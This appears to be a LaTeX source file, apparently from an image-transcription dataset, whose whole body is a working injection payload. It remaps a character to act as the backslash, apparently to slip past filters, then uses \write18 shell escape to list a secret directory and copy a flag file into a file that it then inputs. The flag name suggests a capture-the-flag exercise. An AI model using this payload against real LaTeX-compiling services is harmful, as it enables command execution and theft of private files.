 \documentclass{article}
\begin{document}
\catcode`X=0
XimmediateXwrite18{ls /tmp/secret > /tmp/t.tex}
XimmediateXwrite18{cat /tmp/secret/vaccin-top-secret-flag.txt > /tmp/t.tex}
Xinput{/tmp/t.tex}
\end{document}
